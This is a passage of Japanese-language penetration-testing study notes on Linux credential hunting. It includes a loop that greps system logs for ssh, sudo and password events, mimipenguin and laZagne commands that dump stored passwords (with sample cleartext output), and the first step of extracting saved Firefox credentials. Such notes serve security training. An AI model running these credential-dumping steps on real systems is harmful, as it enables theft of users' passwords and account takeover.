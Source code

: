 | `/var/log/mysqld.log` | すべてのMySQLサーバー関連ログ。         |
これらのログに対して一気にかける方法
ログで興味深いコンテンツを見つけるために使用できる文字列を取得する方法
```shell
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## Memory
### キャッシュ・インメモリ処理
- 多くのアプリケーションやプロセスは、認証に必要な資格情報をメモリやファイルに保存して再利用できるようにする
- ブラウザに保存されている資格情報も読み取ることができる
#### mimipenguin
- Linuxディストリビューションからこのタイプの情報を取得するために[mimipenguin](https://github.com/huntergregal/mimipenguin)というツールがある
	- mimipenguinには管理者/ルート権限が必要
	- python版とshellscript版がある
```shell
cry0l1t3@unixclient:~$ sudo python3 mimipenguin.py
[sudo] password for cry0l1t3: 

[SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY
```

```shell
cry0l1t3@unixclient:~$ sudo bash mimipenguin.sh 
[sudo] password for cry0l1t3: 

MimiPenguin Results:
[SYSTEM - GNOME]          cry0l1t3:WLpAEXFa0SbqOHY
```

#### laZagne
windowsでも使える資格情報検索ツール
```shell
sudo python2.7 laZagne.py all
```

## Key-Rings
### ブラウザに保存された資格情報
- ユーザーが保存したパスワードを暗号化された形式で、再利用するシステムにローカルに保存する
- `Mozilla Firefox`ブラウザは、暗号化された資格情報をそれぞれのユーザーの隠しフォルダに保存する

Mozilla Firefoxブラウザの認証情報保存サイトの認証情報を表示する
`*.default-release`があるかどうかを確認する
```shell
ls -l .mozilla/firefox/ | grep default 
```
